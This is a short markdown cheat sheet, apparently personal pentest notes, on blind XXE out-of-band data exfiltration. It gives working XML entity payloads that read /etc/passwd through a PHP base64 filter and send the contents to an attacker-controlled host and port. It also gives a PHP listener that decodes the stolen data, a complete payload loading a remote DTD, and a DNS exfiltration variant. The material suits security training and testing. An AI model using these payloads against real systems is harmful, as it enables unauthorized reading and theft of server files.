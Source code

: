 # Blind Data Exfiltration
***

### Out-of-band Data Exfiltration
#### When we don't have anything printed on the web application response, we can use the `Out-of-band (OOB) Data Exfiltration` method.
#### With that method we can make the web application send a web request to out webserver with the content of the file we are reading.

#### In order to do that we can use a parameter entity for the content of the file we are reading , while using PHP filter to base64 encode it, and then we create another external parameter entity and reference it to our ip, and place the `file` parameter value as part of the URL being requested over HTTP:
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://My_IP:1337/?content=%file;'>">
```

#### To automatically detect the encoded file content, decode it, and output it to the terminal we can use a simple PHP script:
```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

#### To perform the complete attack we could use the following payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://MY_IP:1337/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

#### Additionally, to that we may try to perform a `DNS OOB Exfiltration` by placing the encoded data as a sub-domain for our URL (e.g. `ENCODEDTEXT.my.website.com`), and then use a tool like `tcpdump` to capture any incoming traffic.

### Automated OOB Exfiltration
#### To automate the process of XXE injection tetsing we can use the [XXEinjector](https://github.com/enjoiz/XXEinjector) tool to perform basic XXE, CDATA source exfiltration, error-based XXE, and blind OOB XXE.